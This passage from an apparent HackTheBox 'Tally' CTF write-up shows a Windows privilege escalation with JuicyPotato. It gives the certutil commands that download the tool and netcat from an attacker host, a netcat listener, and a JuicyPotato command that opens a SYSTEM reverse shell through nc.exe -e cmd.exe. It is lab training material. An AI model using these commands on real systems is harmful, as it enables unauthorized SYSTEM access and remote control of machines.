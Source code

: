 
We can see `Sarah` has the Impersonate privilge enabled, we can exploit this to get a SYSTEM shell using something like [JuicyPotato](https://github.com/ohpe/juicy-potato).


To pull this off we need to transfer a copy of both `JuicyPotato` and `nc64.exe` over to the target. I grab a copy of both files to my working directory and start a python server using:

```bash
python3 -m http.server 80 
```

Then, I downloadd both files from the target using:

```cmd
certutil -urlcache -f http://10.10.14.54/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.54/nc64.exe nc.exe
```

Now we need to find a working CLSID for the target's OS version which is a 2016 Windows server. We can find an extensive list of CLSID's [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2016_Standard).

![clsid-34](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tally/img/clsid-34.png)


Next we start the local listener:

```bash
rlwrap -cAr nc -lvnp 9001 
```


Now we should be ready to execute the exploit, which we can do with the below command:

```cmd
C:\Users\Sarah\Desktop\jp.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\Sarah\Desktop\nc.exe -e cmd.exe 10.10.14.54 9001" -t * "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

This stalls my shell which is a good sign. And on my netcat listener I receive the connection:

![root-35](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tally/img/root-35.png)

